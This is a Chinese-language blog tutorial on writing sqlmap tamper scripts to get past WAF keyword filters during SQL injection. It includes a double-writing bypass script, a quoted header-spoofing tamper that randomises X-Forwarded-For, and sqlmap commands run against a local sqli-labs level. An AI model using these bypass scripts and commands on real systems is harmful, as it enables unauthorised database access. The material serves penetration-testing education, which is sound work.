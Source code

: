 ```yaml
---
title: "Sqlmap Tamper 编写"
date: 2019-11-18T21:20:09+08:00
lastmod: 2019-11-18T21:20:09+08:00
draft: false
tags: []
categories: ['渗透测试']
comment: true
---
```


从零开始写tamper
<!--more-->

# 简单介绍tamper
sqlmap的`--tamper`参数可以引入用户自定义的脚本来修改注入时的payload，由此可以使用tamper来绕过waf，替换被过滤的关键字等。这是一个基本的tamper结构
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```
需要把他保存为 `my.py` 放入 `sqlmap\tamper` 路径下，然后使用的时候加上参数 `--tamper=my` 就行了

# 简单分析
拿官方的一个tamper来分析下结构
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import random

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def randomIP():
    numbers = []

    while not numbers or numbers[0] in (10, 172, 192):
        numbers = random.sample(xrange(1, 255), 4)

    return '.'.join(str(_) for _ in numbers)

def tamper(payload, **kwargs):
    """
    Append a fake HTTP header 'X-Forwarded-For'
    """

    headers = kwargs.get("headers", {})
    headers["X-Forwarded-For"] = randomIP()
    headers["X-Client-Ip"] = randomIP()
    headers["X-Real-Ip"] = randomIP()
    return payload
```
分为了import部分、`__priority__` 属性、dependencies函数、tamper函数以及用户自定义的函数

# import
这一部分我们可以导入sqlmap的内部库，sqlmap为我们提供了很多封装好的函数和数据类型，比如下文的`PRIORITY`就来源于`sqlmap/lib/core/enums.py`

## PRIORITY
PRIORITY是定义tamper的优先级，PRIORITY有以下几个参数:

- LOWEST = -100
- LOWER = -50
- LOW = -10
- NORMAL = 0
- HIGH = 10
- HIGHER = 50
- HIGHEST = 100

如果使用者使用了多个tamper，sqlmap就会根据每个tamper定义PRIORITY的参数等级来优先使用等级较高的tamper，如果你有两个tamper需要同时用，需要注意这个问题。

# dependencies
dependencies主要是提示用户，这个tamper支持哪些数据库，具体代码如下:
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS

__priority__ = PRIORITY.NORMAL

def dependencies():
    singleTimeWarnMessage("这是我的tamper提示")

def tamper(payload, **kwargs):
    return payload
```
![20191118212606](https://y4er.com/img/uploads/20191118212606.png)

DBMS.MYSQL这个参数代表的是Mysql，其他数据库的参数也可以看这个`\sqlmap\lib\core\enums.py`
![20191118212624](https://y4er.com/img/uploads/20191118212624.png)

# Tamper
tamper这个函数是tamper最重要的函数，你要实现的功能，全部写在这个函数里。payload这个参数就是sqlmap的原始注入payload，我们要实现绕过，一般就是针对这个payload的修改。kwargs是针对http头部的修改，如果你bypass，是通过修改http头，就需要用到这个

## 基于payload
先来基于修改payload来绕过替换关键字，我使用sqlilab的第一关，并且修改了部分代码来把恶意关键字替换为空来避免联合查询，如图
![20191118212641](https://y4er.com/img/uploads/20191118212641.png)

编写tamper来双写绕过
```python
def tamper(payload, **kwargs):
    payload = payload.lower()
    payload = payload.replace('select','seleselectct')
    payload = payload.replace('union','ununionion')
    return payload
```
没有使用tamper之前，我们加上`--tech=U`来让sqlmap只测试联合查询注入，`--flush-session`意思是每次刷新会话，清理上次的缓存。
```
sqlmap -u http://php.local/Less-1/?id=1 --tech=U --flush-session --proxy=http://127.0.0.1:8080 --random-agent --dbms=mysql
```
![20191118212702](https://y4er.com/img/uploads/20191118212702.png)

从burp的流量中看到payload是没有双写的，必然会注入失败。而使用了tamper之后
```
sqlmap -u http://php.local/Less-1/?id=1 --tech=U --flush-session --proxy=http://127.0.0.1:8080 --random-agent --tamper=my --dbms=mysql
```
![20191118212747](https://y4er.com/img/uploads/20191118212747.png)

payload正常双写，可以注入
![20191118212800](https://y4er.com/img/uploads/20191118212800.png)

## 基于http头

我们使用`sqlmap\tamper\xforwardedfor.py`的tamper来讲解
```python
def tamper(payload, **kwargs):
    """
    Append a fake HTTP header 'X-Forwarded-For'
    """

    headers = kwargs.get("headers", {})
    headers["X-Forwarded-For"] = randomIP()
    headers["X-Client-Ip"] = randomIP()
    headers["X-Real-Ip"] = randomIP()
    return payload
```
从`kwargs`中取出`headers`数组，然后修改了xff值达到随机IP的效果，不再赘述。

# 总结

本文简单介绍了tamper的编写，并使用双写做了实例演示，在实际的渗透测试中，我们需要针对不同的waf来编写不同的tamper来灵活使用。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**

